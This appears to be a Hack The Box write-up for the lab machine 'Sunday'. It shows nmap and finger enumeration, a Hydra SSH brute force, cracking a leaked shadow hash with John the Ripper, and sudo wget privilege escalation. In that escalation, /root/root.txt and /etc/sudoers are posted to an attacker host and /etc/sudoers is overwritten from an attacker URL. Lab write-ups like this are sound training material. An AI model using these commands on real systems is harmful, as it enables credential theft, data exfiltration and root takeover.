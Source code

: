 # Sunday HTB, IP address:10.10.10.76

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.76**

![sunday1](https://user-images.githubusercontent.com/15195048/93906871-8fc9cf00-fcb1-11ea-9eb0-7640d87254b3.png)

**2. ./nmapAutomator.sh 10.10.10.76 Full**

![sunday2](https://user-images.githubusercontent.com/15195048/93906876-90fafc00-fcb1-11ea-9e94-2e2be9c0d159.png)

**Nmap full port scan:** 

**nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0**
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
55029/tcp open  unknown

Running a specific port scan:
**nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.7**

Results:
Port 22022: is running **SunSSH 1.3**
Port 55029: is running a service that nmap was not able to identify

------------------------------------------------------------------------------------------------------------------------
#Port Enumeration

1.Enumerating finger service
   Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

finger @10.10.10.76

![sunday3](https://user-images.githubusercontent.com/15195048/93906879-91939280-fcb1-11ea-9b88-6dcd9538d0dd.png)

**perl finger-user-enum.pl -U user.txt -t 10.10.10.76**
                                                     
![sunday4](https://user-images.githubusercontent.com/15195048/93906880-91939280-fcb1-11ea-833a-f870f54e68ad.png)
![sunday5](https://user-images.githubusercontent.com/15195048/93906882-922c2900-fcb1-11ea-948a-2ae941037bfd.png)


2. Port 22
Connecting on port 22
From the nmap automator script we found out that SSH service is running on port 22.

ssh sunny@10.10.10.76 -p 22022
  Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

  Notes:
  This particular error happens while the encrypted channel is being set up. If your system and the remote system don't share at least one cipher, there is no cipher to agree on and no encrypted channel is possible. Usually SSH servers will offer a small handful of different ciphers in order to cater to different clients

ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1
OR
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc sunny@10.10.10.76

I will brute force with several wordlists

HYDRA
hydra -V -I -l sunny -P ‘/usr/share/wordlists/rockyou.txt’ 10.10.10.76 ssh -s 22022




 Finally “sunday” seems to be the password.

#LATERAL MOVEMENT SUNNY → SAMMY
ssh sunny@10.10.10.76
I found a backup file in the following directory. 
It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.



copy sammy's hash password to a hash.txt file
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::

JOHN THE RIPPER

john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt 


------------------------------------------------------------------------------------------------------------------------------------------------------------
#Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


A) GTFOBins wget

First attempt: Gaining a nc shell on attacker machine
 We can use the wget –post-file parameter to post the contents of root.txt. Let’s see if that works. We spin up a Netcat listener on port 80 on our attacker machine
 sudo wget –post-file=/root/root.txt attacker machine



We can capture the flag that way, but let’s do something else with these elevated privileges to get a root shell on the box.
B) Change sudoers file permissions and make sammy's rights ALL
 
 What if we post the /etc/sudoers file and make Sammy or Sunny execute anything as root? Let’s first see the contents of /etc/sudoers. 
<<sudo wget –post-file=/etc/sudoers <attacker machine ip>>>


Copying the contents of /etc/sudoers into sudoers and changing the permissions of Sammy to ALL=(root) NOPASSWD: ALL as shown below.
Collecting this file and installing it as /etc/sudoers, since wget is running as root effectively.
sudo wget -O /etc/sudoers http://<attcker_ip:8000/sudoers
Now we can see that with just one command, Sammy becomes root and take complete control of the box.


*Disclaimer: I did not do the Privilege Escalation part because of SSH LAG.*

 
